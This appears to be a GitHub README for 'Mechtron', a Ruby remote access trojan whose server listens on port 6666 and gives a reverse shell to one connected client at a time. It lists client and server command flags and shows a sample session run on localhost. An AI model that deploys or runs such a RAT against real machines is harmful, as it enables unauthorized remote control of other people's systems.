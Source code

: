 # Mechtron
A RAT tool. Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time.

## Commands
clients<br>
session IP
<br>
commands

## Instructions
***Client -*** ```./mechtron.rb -c IP```<br>
***Server -*** ```./mechtron.rb -s```<br>
***Help -*** ```./mechtron.rb -h```

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
127.0.0.1 joined
session 127.0.0.1
session started with 127.0.0.1
whoami
chrisbasinger
which ruby
/bin/ruby
exit
closing session
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
./mechtron -c 127.0.0.1
```
